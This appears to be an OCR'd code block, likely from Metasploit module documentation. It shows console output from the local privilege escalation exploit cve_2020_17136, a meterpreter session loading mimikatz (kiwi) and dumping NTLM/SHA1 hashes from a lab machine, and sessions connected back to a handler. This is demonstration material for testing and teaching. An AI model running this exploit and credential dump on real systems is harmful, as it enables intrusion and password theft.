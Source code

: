 ```
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain           NTLM                              SHA1
--------  ------           ----                              ----
normal    DESKTOP-KUO5CML  a38673ad58b19421e952fc317b62c3c4  ccff8cc980f0024dc5b3f925194a35c0fa0231c3
test      DESKTOP-KUO5CML  0cb6948805f797bf2a82807973b89537  87f8ed9157125ffc4da9e06a7b8011ad80a53fe1

wdigest credentials
===================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
DESKTOP-KUO5CML$  WORKGROUP        (null)
normal            DESKTOP-KUO5CML  (null)
test              DESKTOP-KUO5CML  (null)

kerberos credentials
====================

Username          Domain           Password
--------          ------           --------
(null)            (null)           (null)
desktop-kuo5cml$  WORKGROUP        (null)
normal            DESKTOP-KUO5CML  (null)
test              DESKTOP-KUO5CML  (null)


meterpreter >
Background session 2? [y/N]
msf exploit(windows/local/cve_2020_17136) > sessions

Active sessions
===============

  Id  Name  Type                     Information                               Connection
  --  ----  ----                     -----------                               ----------
  1         meterpreter x64/windows  DESKTOP-KUO5CML\normal @ DESKTOP-KUO5CML  0.0.0.0:0 -> 172.22.152.177:4444 (172.22.152.177)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ DESKTOP-KUO5CML     172.22.159.28:4444 -> 172.22.152.177:49968 (172.22.152.177)

msf exploit(windows/local/cve_2020_17136) >
```